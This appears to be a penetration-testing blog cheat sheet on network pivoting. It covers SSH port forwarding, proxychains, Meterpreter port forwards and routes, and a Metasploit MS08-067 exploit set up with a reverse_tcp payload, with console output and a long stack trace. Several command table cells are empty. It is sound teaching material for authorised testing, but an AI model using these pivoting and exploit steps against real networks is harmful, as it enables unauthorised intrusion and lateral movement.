



- WTF is Pivoting?
- SSH Pivoting Cheatsheet
- Configure Metasploit to use a SSH Pivot
- Meterpreter Pivoting Cheatsheet
- Pivoting Example Diagrams
WTF is Pivoting?
Pivoting is a technique used to route traffic through a compromised host on a penetration test.
When conducting an external penetration test you may need to route traffic through a compromised machine in order to compromise internal targets.
Pivoting, allows you to leverage tools on your attacking machine while routing traffic through other hosts on the subnet, and potentially allowing access to other subnets.
SSH Pivoting Cheatsheet
SSH Port Forwarding
| Command | Description |
|---|---|
|
|
Port 9999 locally is forwarded to port 445 on 10.0.2.2 through host 192.168.2.250 |
SSH Port Forwarding with Proxychains
| Command | Description |
|---|---|
|
|
Dynamically allows all port forwards to the subnets availble on the target. |
Dynamic Proxychain Warning
Dynamic Proxychain SSH port forwarding does not work with nmap and metasploits meterpreter shells won't spawn.
If you attempt to spawn a shell via Meterpreter, you’ll get an error similar to the following:
meterpreter > execute -f cmd.exe -i -H
|S-chain|-<>-127.0.0.1:9050-<><>-127.0.0.1:41713-<--timeoutUsing Proxychain port forwards
When using a Proxychain port forward, all commands need to be prefixed with the proxychain command, this instructs the application traffic to route through the proxy.
Connecting to RDP via Proxychains Dynamic Port Forwarding
root:~# proxychains rdesktop TARGET-IP
Configure Metasploit to use a SSH Pivot
The following is an example of how to configure Metersploit to use a SSH portward. In this example port 9999 is forwarded to the target and the attacking machine has an IP address of 192.168.2.100:
Setup the port forward (instructions above), then configure msfconsole as follows (using MS08_067 in this example).
msf exploit(ms08_067_netapi) > show options
Module options (exploit/windows/smb/ms08_067_netapi):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOST 0.0.0.0 yes The target address
RPORT 9999 yes Set the SMB service port
SMBPIPE BROWSER yes The pipe name to use (BROWSER, SRVSVC)
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC thread yes Exit technique (accepted: seh, thread, process, none)
LHOST 192.168.2.100 yes The listen address
LPORT 443 yes The listen port
Exploit target:
Id Name
-- ----
0 Automatic TargetingDon’t use 127.0.0.1 with Metasploit
Update: You can now use 127.0.0.2
Other 127.0.0.0 addresses can also be used (127.0.0.3,127.0.0.4 etc), but not 127.0.0.1
The example above uses 0.0.0.0 Not 127.0.0.1, never use 127.0.0.1 with Metasploit or you’ll get the following error after you attempt to do anything post exploit:
exploit(ms08_067_netapi) > exploit
[*] Started reverse handler on 192.168.14.183:443
[*] Automatically detecting the target...
[*] Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] Attempting to trigger the vulnerability...
[*] Sending stage (769536 bytes) to 192.168.15.252
msf meterpreter > getuid
[-] Session manipulation failed: Validation failed: Address is reserved ["/opt/metasploit/apps/pro/ui/vendor/bundle/ruby/1.9.1/gems/activerecord-3.2.17/lib/active_record/validations.rb:56:in `save!'", "/opt/metasploit/apps/pro/ui/vendor/bundle/ruby/1.9.1/gems/activerecord-3.2.17/lib/active_record/attribute_methods/dirty.rb:33:in `save!'", "/opt/metasploit/apps/pro/ui/vendor/bundle/ruby/1.9.1/gems/activerecord-3.2.17/lib/active_record/transactions.rb:264:in `block in save!'", "/opt/metasploit/apps/pro/ui/vendor/bundle/ruby/1.9.1/gems/activerecord-3.2.17/lib/active_record/transactions.rb:313:in `block in with_transaction_returning_status'", "/opt/metasploit/apps/pro/ui/vendor/bundle/ruby/1.9.1/gems/activerecord-3.2.17/lib/active_record/connection_adapters/abstract/database_statements.rb:192:in `transaction'", "/opt/metasploit/apps/pro/ui/vendor/bundle/ruby/1.9.1/gems/activerecord-3.2.17/lib/active_record/transactions.rb:208:in `transaction'", "/opt/metasploit/apps/pro/ui/vendor/bundle/ruby/1.9.1/gems/activerecord-3.2.17/lib/active_record/transactions.rb:311:in `with_transaction_returning_status'", "/opt/metasploit/apps/pro/ui/vendor/bundle/ruby/1.9.1/gems/activerecord-3.2.17/lib/active_record/transactions.rb:264:in `save!'", "/opt/metasploit/apps/pro/msf3/lib/msf/core/db.rb:377:in `block in report_host'", "/opt/metasploit/apps/pro/ui/vendor/bundle/ruby/1.9.1/gems/activerecord-3.2.17/lib/active_record/connection_adapters/abstract/connection_pool.rb:129:in `with_connection'", "/opt/metasploit/apps/pro/msf3/lib/msf/core/db.rb:323:in `report_host'", "/opt/metasploit/apps/pro/msf3/lib/msf/core/db.rb:2031:in `block in report_event'", "/opt/metasploit/apps/pro/ui/vendor/bundle/ruby/1.9.1/gems/activerecord-3.2.17/lib/active_record/connection_adapters/abstract/connection_pool.rb:129:in `with_connection'", "/opt/metasploit/apps/pro/msf3/lib/msf/core/db.rb:2025:in `report_event'", "/opt/metasploit/apps/pro/msf3/lib/msf/core/framework.rb:222:in `report_event'", "/opt/metasploit/apps/pro/msf3/lib/msf/core/framework.rb:331:in `session_event'", "/opt/metasploit/apps/pro/msf3/lib/msf/core/framework.rb:408:in `block in on_session_output'", "/opt/metasploit/apps/pro/msf3/lib/msf/core/framework.rb:407:in `each'", "/opt/metasploit/apps/pro/msf3/lib/msf/core/framework.rb:407:in `on_session_output'", "/opt/metasploit/apps/pro/msf3/lib/msf/core/event_dispatcher.rb:183:in `block in method_missing'", "/opt/metasploit/apps/pro/msf3/lib/msf/core/event_dispatcher.rb:181:in `each'", "/opt/metasploit/apps/pro/msf3/lib/msf/core/event_dispatcher.rb:181:in `method_missing'", "/opt/metasploit/apps/pro/msf3/lib/msf/core/session_manager.rb:242:in `block in register'", "/opt/metasploit/apps/pro/msf3/lib/rex/ui/text/shell.rb:271:in `call'", "/opt/metasploit/apps/pro/msf3/lib/rex/ui/text/shell.rb:271:in `print_error'", "/opt/metasploit/apps/pro/msf3/lib/rex/ui/text/dispatcher_shell.rb:436:in `unknown_command'", "/opt/metasploit/apps/pro/msf3/lib/rex/ui/text/dispatcher_shell.rb:411:in `run_single'", "/opt/metasploit/apps/pro/msf3/lib/rex/post/meterpreter/ui/console.rb:68:in `block in interact'", "/opt/metasploit/apps/pro/msf3/lib/rex/ui/text/shell.rb:190:in `call'", "/opt/metasploit/apps/pro/msf3/lib/rex/ui/text/shell.rb:190:in `run'", "/opt/metasploit/apps/pro/msf3/lib/rex/post/meterpreter/ui/console.rb:66:in `interact'", "/opt/metasploit/apps/pro/msf3/lib/msf/base/sessions/meterpreter.rb:396:in `_interact'", "/opt/metasploit/apps/pro/msf3/lib/rex/ui/interactive.rb:49:in `interact'", "/opt/metasploit/apps/pro/msf3/lib/msf/ui/console/command_dispatcher/core.rb:1745:in `cmd_sessions'", "/opt/metasploit/apps/pro/msf3/lib/rex/ui/text/dispatcher_shell.rb:427:in `run_command'", "/opt/metasploit/apps/pro/msf3/lib/rex/ui/text/dispatcher_shell.rb:389:in `block in run_single'", "/opt/metasploit/apps/pro/msf3/lib/rex/ui/text/dispatcher_shell.rb:383:in `each'", "/opt/metasploit/apps/pro/msf3/lib/rex/ui/text/dispatcher_shell.rb:383:in `run_single'", "/opt/metasploit/apps/pro/msf3/lib/msf/ui/console/command_dispatcher/exploit.rb:142:in `cmd_exploit'", "/opt/metasploit/apps/pro/msf3/lib/rex/ui/text/dispatcher_shell.rb:427:in `run_command'", "/opt/metasploit/apps/pro/msf3/lib/rex/ui/text/dispatcher_shell.rb:389:in `block in run_single'", "/opt/metasploit/apps/pro/msf3/lib/rex/ui/text/dispatcher_shell.rb:383:in `each'", "/opt/metasploit/apps/pro/msf3/lib/rex/ui/text/dispatcher_shell.rb:383:in `run_single'", "/opt/metasploit/apps/pro/msf3/lib/rex/ui/text/shell.rb:200:in `run'", "/opt/metasploit/apps/pro/msf3/msfconsole:148:in `<main>'"]Meterpreter Pivoting Cheatsheet
Assuming you’ve compromised the target machine and have a meterpreter shell, you can pivot through it by setting up a meterpreter port forward.
| Command | Description |
|---|---|
|
|
Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shell |
|
|
Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shell |
|
|
Meterpreter delete all port forwards |
|
|
Meterpreter list active port forwards |
|
|
Use Meterpreters autoroute script to add the route for specified subnet |
|
|
Meterpreter list all active routes |
|
|
Meterpreter view available networks the compromised host can access |
|
|
Meterpreter add route for 192.168.14.0/24 via Session 3. |
|
|
Meterpreter delete route for 192.168.14.0/24 via Session 3. |
|
|
Meterpreter delete all routes |
Meterpreter Port Forwards are flakey
Meterpreter port forwards can be a bit flakey, also the meterpreter session needs to be remain open.
In order to connect to the compromised machine you would run:
Connect to RDP via Meterpreter Port Forward
root:~# rdesktop 127.0.0.1
Pivoting Example Diagrams
Pivoting can be a bit hard to understand on paper, so here are some diagrams for clarification with the associated commands.
Starting Point
You’ll need to have access to a compromised machine on the target network, depending on the compromised machines configuration you may or may not need root.

Routing Traffic to the Same Subnet

Example commands
SSH Pivoting using Proxychains
Dynamic SSH Pivoting Command using proxy chains
root:~# ssh -D 127.0.0.1:9050 root@192.168.2.2
You could then connect to Target 2’s RDP server using:
Connecting to RDP via Proxychains Dynamic Port Forwarding
root:~# proxychains rdesktop 192.168.2.3
SSH Port Forwarding Command
RDP SSH Port Forwarding
root:~# ssh -L 3389:192.168.2.3:3389 user@192.168.2.2
You could then connect to Target 2’s RDP server using:
Connecting to RDP via SSH Port Forwarding
root:~# rdesktop 127.0.0.1
SSH and Meterpreter Pivoting
This example uses SSH pivoting and Meterpreter port forwarding to access machines on subnet 2.

Example commands
The above commands would be leveraged to reach Target 2, from Target 2 to Target 3, meterpreter would be used. Follow the meterpreter portwarding example above for a MS08-067 example.
If this was helpfull, click tweet below.
Enjoy.
Follow @Arr0way - resistence is futile...